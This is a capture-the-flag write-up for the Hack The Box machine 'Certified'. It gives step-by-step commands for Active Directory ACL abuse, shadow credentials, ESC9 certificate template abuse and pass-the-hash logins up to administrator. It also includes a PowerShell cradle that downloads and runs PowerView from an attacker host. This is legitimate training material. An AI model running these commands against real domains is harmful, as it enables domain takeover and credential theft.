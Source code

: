  g-afirst assumed breach scenario from HTB , no nmap this time the name of box is Certified from the name , I would assume the box is related to the ADCS , and the box will be DC 

`judith.mader:judith09`


![[Pasted image 20241104020425.png]]

we already have foothold , I will run bloodhound to hunt for interesting ACLs  


```bash
 nxc ldap 10.129.48.103 -u 'judith.mader' -p judith09 --bloodhound  -c  all  --dns-server 10.129.48.103
```


on bloodhound we can see that our user got some interesting ACLs 
![[Pasted image 20241104021536.png]]


### WriteOwner Abuse

this will allow us to change the owner of the group

first change the owner of group , to our user
```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'MANAGEMENT'  certified.htb/'judith.mader':'judith09'
```

![[Pasted image 20241104022215.png]]

now we can grantee add member right to our controlled user 
```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' certified.htb/judith.mader:'judith09'
```

![[Pasted image 20241104022329.png]]

==Note: we can use the .bak file to restore the old state of the user== 

add our user to the Management group 
```bash
net rpc group addmem "MANAGEMENT" "judith.mader" -U "certified.htb"/"judith.mader" -S "10.129.48.103"
```


we can verify , that the operation has been done completed successfully 

```bash
net rpc group members  "MANAGEMENT"  -U "certified.htb"/"judith.mader" -S "10.129.48.103"
```

### GenericWrite

now we are members of `MANAGEMENT` group , so we can abuse `GenericWrite` to take over management_svc  user 

![[Pasted image 20241104023652.png]]

I will use a shadow credential attack 
```bash
certipy shadow auto -u 'judith.mader@certified.htb' -p judith09  -account MANAGEMENT_SVC
```

![[Pasted image 20241104042657.png]]

==I had a CLock skew error , and I fixed using sudo ntpdate TARGET_IP==


### GenericAll

![[Pasted image 20241104042840.png]]

`management_svc` is member of remote management users so we can use `evil-winrm` to  get shell , on the machine 

```bash
evil-winrm -i 10.129.48.103 -H a091c1832bcdd4677c28b5a6a1295584 -u management_svc
```

![[Pasted image 20241104043050.png]]


we can use `GenericAll` to force change password of the `ca_operator` , to do that from  a powershell session , we will need `PowerView.ps1`

```Powershell
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.28:8080/PowerView.ps1')
```

```PowerShell
$UserPassword = ConvertTo-SecureString 'd0s3nt.was.here' -AsPlainText -Force

Set-DomainUserPassword -Identity ca_operator -AccountPassword $UserPassword 
```
 
![[Pasted image 20241104044409.png]]


### ESC9



enumerating for vulnerable template

```bash
certipy find -u 'ca_operator' -p 'd0s3nt.was.here'  -dc-ip 10.129.48.103  -vulnerable -stdout
```

![[Pasted image 20241104044856.png]]

ESC9 allow us to abuse the absence of the strong mapping  , for more check this https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7

to exploit this we need `GenericWrite\GenericAll` over any domain user , we will  use `management_svc` rights over `ca_operator`

update UPN to the administrator 
```bash
certipy account update   -u 'management_svc' -hashes ':a091c1832bcdd4677c28b5a6a1295584' -dc-ip 10.129.48.103 -user ca_operator -upn administrator@certified.htb
```

request a certificate using the `ca_operator` , the Upn we modified earlier will be used to map the certificate , so it will be issued with administrator privileges 
```bash
certipy req  -u 'ca_operator' -p d0s3nt.was.here  -dc-ip 10.129.48.103 -template CertifiedAuthentication -ca certified-DC01-CA
```

![[Pasted image 20241104045540.png]]

reset the Upn back , if we didn't reset it we will have problems using certificate to authenticate 

```bash
certipy account update   -u 'management_svc' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -dc-ip 10.129.48.103 -user ca_operator -upn ca_operator@certified.htb
```



```bash
certipy auth -pfx administrator.pfx    -domain certified.htb -dc-ip 10.129.48.103
```

![[Pasted image 20241104045751.png]]



```bash
 impacket-psexec certified.htb/administrator@10.129.48.103 -hashes aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

![[Pasted image 20241104045830.png]]